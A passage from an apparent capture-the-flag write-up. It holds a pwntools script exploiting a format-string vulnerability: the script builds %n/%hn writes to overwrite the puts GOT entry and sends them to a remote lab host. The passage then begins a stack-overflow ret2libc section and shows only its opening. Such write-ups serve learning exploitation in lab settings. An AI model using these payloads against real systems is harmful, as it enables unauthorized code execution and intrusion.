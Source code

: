 ```python
#payload = p64(got_puts_address) + b"%10$n"
#Turn the address around to avoid stopping reading because of null bytes

'''
Number of bytes to write = Desired value - bytes written so far

1st write = (0x40) 64 - 0 = 64
2st write = (0x123b) 4667 - 64 = 4603
'''
### AAA is used for padding 
payload = b"%64X%13$n" + b"%4603X%14$hnAAA" + p64(got_puts_address+2) + p64(got_puts_address)

'''
with open("payload", "wb") as f:
	f.write(junk_payload)
	f.write(payload)
'''

p = process()
p = remote("10.10.94.223",9008)
p.send(junk_payload)
p.send(payload)

p.interactive()
```

# PWN109 - Stack BOF - Ret2Libc

> The challenge is running on port 9009

Let's download the binary and start it. 
Binary throws an `Segmentation fault` error if we add longer input

![picture 72](/assets/images/4e410b179f06a242353e55772eb72950ee272489ec765b3299f3f2bb151e5381.png)  

## File and Checksec

![picture 73](/assets/images/2db56218634773d699cce489006bf3e5510bceb783f12f42c1b39d23627ed742.png)  
